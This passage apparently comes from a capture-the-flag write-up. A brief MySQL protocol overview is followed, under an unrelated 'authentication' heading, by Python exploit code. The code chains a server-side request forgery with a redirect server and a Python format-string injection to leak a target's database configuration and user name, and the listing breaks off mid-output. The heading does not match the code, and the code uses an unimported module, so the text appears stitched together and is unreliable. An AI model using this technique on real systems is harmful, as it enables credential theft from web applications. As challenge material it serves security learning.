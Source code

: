 ### MySQL Protocol Overview

The server listens for connections on a TCP/IP port or a local socket. When a client connects, a handshake and authentication are performed. If successful, the session begins. The client sends a command, and the server responds with a data set or a message appropriate for the type of command that was sent. When the client is finished, it sends a special command telling the server it is done, and the session is terminated. The basic unit of communication is the application-layer packet. Commands consist of one packet. Responses may include several.

<p align='center'>  
  <img src='assets/mysql_protocol_state.png'>
</p>


### MySQL Authentication Model

```python
import requests, re
from HTMLParser import HTMLParser
host, port = 'host', 1337
HOST = 'http://%s:%d/' % (host, port)
resp = HTMLParser().unescape(requests.post(HOST, {'url': 'http://host.docker.internal:1338/'}).text)

'''
from SimpleHTTPServer import SimpleHTTPRequestHandler
from SocketServer import TCPServer
class MyServer(TCPServer):
	allow_reuse_address = True
class HTTP_RequestHandler(SimpleHTTPRequestHandler):
	def do_GET(self):
		self.send_response(301)
		self.send_header('Location', '{dest.__init__.__globals__[db_conf]}')
		return self.end_headers()
MyServer(('', 1338), HTTP_RequestHandler).serve_forever()
'''

db_conf = ast.literal_eval(re.sub(',([^,]*)>', '', re.search('{(.*)}', resp).group(0)))

'''
{
	'autocommit': True,
	'host': '127.0.0.1',
	'charset': 'utf8mb4',
	'user': 'user_127a96',
	'database': 'db_4e132e',
```
